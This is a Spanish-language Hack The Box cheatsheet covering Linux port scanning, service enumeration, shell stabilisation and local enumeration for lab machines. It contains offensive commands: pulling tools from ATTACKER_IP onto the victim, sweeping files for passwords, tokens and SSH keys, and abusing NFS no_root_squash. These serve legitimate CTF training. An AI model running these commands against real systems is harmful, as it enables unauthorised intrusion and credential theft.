

# HTB Linux Enumeration Cheatsheet

> [!abstract] TL;DR
> Flujo recomendado: **red → servicio → foothold → enum local → privesc**. En HTB casi todo sale de correlacionar datos simples: versiones, permisos, usuarios, archivos raros, servicios internos y credenciales reutilizadas.

## Mapa mental



## Setup rápido

```bash
export IP=10.10.10.10
mkdir -p scans loot exploits
```

```bash
# Comprobar conectividad y TTL aproximado
ping -c 2 $IP
```

> [!tip]
> TTL cercano a `63/64` suele apuntar a Linux. TTL cercano a `127/128` suele apuntar a Windows. No es prueba absoluta, pero ayuda a orientar.

## Nmap

### Primer barrido

```bash
# Top ports + versiones básicas
nmap -sV -sC -oN scans/initial.txt $IP

# Todos los puertos TCP
sudo nmap -p- --min-rate 5000 -oN scans/all-ports.txt $IP

# Extraer puertos abiertos
ports=$(grep -oP '\d+(?=/tcp\s+open)' scans/all-ports.txt | paste -sd, -)
echo $ports

# Scan detallado solo sobre puertos abiertos
sudo nmap -sV -sC -A -p $ports -oN scans/detail.txt $IP
```

### UDP cuando hay pistas

```bash
# UDP es lento: empezar por top ports
sudo nmap -sU --top-ports 20 -oN scans/udp-top.txt $IP

# Puertos UDP comunes en HTB
sudo nmap -sU -p 53,67,68,69,111,123,137,161,500,2049 -oN scans/udp-common.txt $IP
```

Ver también [[nmap-tecnicas-de-scan]].

## Web enum

### HTTP/HTTPS básico

```bash
whatweb http://$IP
curl -i http://$IP
curl -k -i https://$IP
```

```bash
# Headers, redirects y tecnologías visibles
curl -s -D - http://$IP -o /dev/null
curl -s http://$IP/robots.txt
curl -s http://$IP/sitemap.xml
```

### Virtual hosts

```bash
# Si aparece un dominio en la web, certificado o redirect
echo "$IP example.htb" | sudo tee -a /etc/hosts

# Fuzz de vhosts
ffuf -u http://$IP/ -H "Host: FUZZ.example.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs <SIZE>
```

> [!note]
> En HTB, un hostname en un redirect, certificado TLS, email, footer o error suele ser una llave. Agregalo a `/etc/hosts` y repetí enumeración.

### Directorios y archivos

```bash
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,bak,zip

feroxbuster -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,txt,html,bak,zip
```

### Checks manuales rápidos

```bash
# Buscar comentarios, rutas y versiones
curl -s http://$IP | grep -Ei 'version|admin|debug|dev|todo|user|pass|key'

# Descargar archivos interesantes
wget -r -np -nH --cut-dirs=1 http://$IP/path/
```

## Servicios comunes

### SSH - 22

```bash
nmap -sV -p22 --script ssh2-enum-algos,ssh-hostkey $IP
ssh -o PreferredAuthentications=publickey -i id_rsa user@$IP
```

Buscar:

- usuarios válidos filtrados por web, SMB, FTP o `/etc/passwd`;
- claves privadas (`id_rsa`, backups, `.ssh/`);
- reuse de contraseña.

### FTP - 21

```bash
nmap -sV -p21 --script ftp-anon,ftp-syst,ftp-bounce $IP
ftp anonymous@$IP
wget -m ftp://anonymous:anonymous@$IP
```

### SMB - 139/445

```bash
smbclient -L //$IP -N
smbmap -H $IP
enum4linux-ng -A $IP
```

```bash
# Descargar share anónimo
smbclient //$IP/<SHARE> -N
recurse ON
prompt OFF
mget *
```

Ver [[DNS, SMB, SNMP]].

### NFS - 111/2049

```bash
showmount -e $IP
sudo mount -t nfs $IP:/export /mnt -o nolock
find /mnt -type f -maxdepth 3 -ls
```

> [!tip]
> Si NFS usa `no_root_squash`, podés crear archivos como root desde tu máquina y abusar ownership/permisos dentro del share.

### DNS - 53

```bash
dig @$IP example.htb
dig @$IP axfr example.htb
dnsrecon -d example.htb -n $IP
```

### SNMP - 161/UDP

```bash
snmpwalk -v2c -c public $IP
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt $IP
snmpbulkwalk -v2c -c public $IP . | tee loot/snmp.txt
```

Buscar usuarios, procesos, rutas, software instalado y paths.

### RPC

```bash
rpcinfo -p $IP
nmap -sV -p111 --script rpcinfo $IP
```

### MySQL / PostgreSQL

```bash
mysql -h $IP -u root -p
psql -h $IP -U postgres
nmap -sV -p3306,5432 --script mysql-info,pgsql-brute $IP
```

### Redis

```bash
redis-cli -h $IP info
redis-cli -h $IP config get dir
redis-cli -h $IP keys '*'
```

### LDAP

```bash
nmap -sV -p389,636 --script ldap-rootdse $IP
ldapsearch -x -H ldap://$IP -s base namingcontexts
ldapsearch -x -H ldap://$IP -b "dc=example,dc=htb"
```

## Foothold: estabilizar shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 40 columns 120
```

En tu terminal local:

```bash
stty raw -echo; fg
```

Transferencia de archivos:

```bash
# Atacante
python3 -m http.server 8000

# Victima
wget http://ATTACKER_IP:8000/tool.sh -O /tmp/tool.sh
curl http://ATTACKER_IP:8000/tool.sh -o /tmp/tool.sh
```

## Enumeración local inicial

### Snapshot de 60 segundos

```bash
whoami; id; hostname; pwd
cat /etc/os-release
uname -a
ip -br addr
ip route
ss -tulpen
sudo -l
```

Ver [[Linux built-in tools]] y [[iproute2-suite-ss-ip-bridge]].

### Usuarios y grupos

```bash
cat /etc/passwd
cat /etc/group
id
groups
lastlog
w
```

```bash
# Usuarios con shell interactiva
grep -E 'sh$|bash$|zsh$' /etc/passwd

# Home dirs con contenido
ls -la /home
find /home -maxdepth 2 -type f -name ".*" -ls 2>/dev/null
```

### Credenciales y secretos

```bash
grep -RniE 'password|passwd|pwd|secret|token|api[_-]?key|credential|mysql|postgres|redis' /var/www /opt /home 2>/dev/null

find / -type f \( -name "*.bak" -o -name "*.old" -o -name "*.save" -o -name "*.zip" -o -name "*.tar*" -o -name "*.kdbx" \) 2>/dev/null

find / -name "id_rsa" -o -name "*.pem" -o -name "*.key" 2>/dev/null
```

```bash
# Historiales
find /home /root -name ".*history" -type f -exec ls -la {} \; 2>/dev/null
cat ~/.bash_history 2>/dev/null
```

> [!warning]
> En HTB, la privesc muchas veces no es un exploit: es una contraseña repetida en config, backup, historial, base de datos o script.

### Procesos y servicios

```bash
ps auxww
ps -ef --forest
systemctl list-units --type=service --state=running 2>/dev/null
service --status-all 2>/dev/null
```

```bash
# Procesos con paths raros
ps auxww | grep -Ei '/home|/tmp|/opt|/var/www'
```

### Puertos internos

```bash
ss -ltnp
ss -lunp
```

Si ves servicios en `127.0.0.1`, probar desde la víctima:

```bash
curl -i http://127.0.0.1:PORT
mysql -h 127.0.0.1 -u root -p
redis-cli -h 127.0.0.1 -p PORT
```

Port forward con SSH:

```bash
ssh -L 8080:127.0.0.1:PORT user@$IP
```

## Siguiente paso: privilege escalation

Cuando ya tenés shell, pasá a [[HTB/Linux/privilege-escalation|Linux Privilege Escalation]]. Esta nota se queda enfocada en enumeración y foothold; la escalada queda separada para poder consultarla sin mezclar fases.

## Checklist de decisión

```text
1. Qué puertos hay abiertos?
2. Qué versiones exactas corren?
3. Hay vhosts o dominios ocultos?
4. Hay archivos descargables, backups o credenciales?
5. Puedo reutilizar usuarios/creds en SSH, SMB, FTP o panel web?
6. Ya en la máquina: qué usuario soy y qué grupos tengo?
7. Hay puertos internos o servicios solo en localhost?
8. Hay credenciales en configs, historiales o bases de datos?
9. Ya tengo suficiente para pasar a Linux Privilege Escalation?
```

## One-liners

```bash
# Puertos TCP abiertos rápido
sudo nmap -p- --min-rate 5000 $IP

# Web quick look
whatweb http://$IP && curl -i http://$IP

# SMB anon
smbclient -L //$IP -N && smbmap -H $IP

# NFS
showmount -e $IP

# Local enum básica
whoami; id; hostname; cat /etc/os-release; uname -a; sudo -l; ss -tulpen

# Credenciales
grep -RniE 'password|passwd|pwd|secret|token|key' /home /var/www /opt 2>/dev/null
```

## Referencias

- [[Linux built-in tools]]
- [[Cheatsheet Linux vs Windows]]
- [[nmap-tecnicas-de-scan]]
- [[iproute2-suite-ss-ip-bridge]]
- [[DNS, SMB, SNMP]]
- PayloadsAllTheThings
